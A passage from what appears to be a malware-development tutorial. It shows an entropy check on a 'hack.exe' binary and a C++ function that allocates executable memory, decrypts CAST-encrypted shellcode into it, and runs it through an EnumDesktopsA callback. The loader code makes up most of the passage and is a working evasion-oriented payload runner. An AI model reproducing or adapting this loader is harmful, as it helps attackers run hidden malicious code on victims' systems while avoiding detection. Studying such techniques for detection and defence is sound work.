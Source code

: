 As you can see, everything is worked perfectly! =^..^=     

Calculating Shannon entropy:    

```bash
python3 entropy.py -f hack.exe
```

![cryptography](./images/131/2024-07-28_17-07.png){width="80%"}      

Our payload in the `.text` section.    

### practical example 2

Update our simple logic, just replace entire payload decryption and running to decrypt and run shellcode like this:     

```cpp
void cast_decrypt_and_execute_shellcode(unsigned char* shellcode, int 
shellcode_len, uint32_t subkeys[ROUNDS][4]) {
  LPVOID mem_block = NULL;
  // allocate a single block for execution
  mem_block = VirtualAlloc(NULL, shellcode_len, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  if (mem_block == NULL) {
    printf("memory allocation failed\n");
    exit(1);
  }

  // decrypt the entire shellcode into the allocated memory
  for (int i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    uint32_t decrypted_block[2];
    memcpy(decrypted_block, shellcode + i * BLOCK_SIZE, BLOCK_SIZE);
    cast_decrypt(decrypted_block, subkeys);
    memcpy((char *)mem_block + i * BLOCK_SIZE, decrypted_block, BLOCK_SIZE);
  }

  // execute the shellcode using EnumDesktopsA
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem_block, 
  (LPARAM)NULL); 
}
```
